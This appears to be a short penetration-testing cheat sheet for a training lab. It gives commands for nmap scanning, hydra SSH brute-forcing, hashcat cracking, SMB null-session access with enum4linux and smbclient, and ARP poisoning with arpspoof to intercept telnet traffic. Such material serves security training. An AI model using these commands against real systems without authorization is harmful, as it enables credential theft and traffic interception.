 ```
sudo nmap -sC -sV <ip>
```

Bruteforce and service authentication

```
hydra -U <userlist> -P <wordlist> <ip> ssh -t 4 -V
```

Download and crack the local password on the system

```
hashcat -m 1800 -w <wordlist> pass.txt
```

---

### Null Sessions

Find the target network

```
sudo nmap -sn <ip>/<subnet>
sudo nmap -sC -sV <ip>
```

Check for null sessions

```
enum4linux -a <ip>
```

Exploit null session

```
smbclient //<ip>/WorkSharing -N
```

```
dir
get Congratulations.txt
```

---

### ARP Poison

Identify the telnet server and the client machine

```
sudo nmap -sn 10.100.13.0/24
sudo nmap -sC -sV 10.100.13.36
sudo nmap -sC -sV 10.100.13.37
```

Intercept traffic between the two

```
sudo bash `echo 1 > /proc/sys/net/ipv4/ip_forward`
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36
```
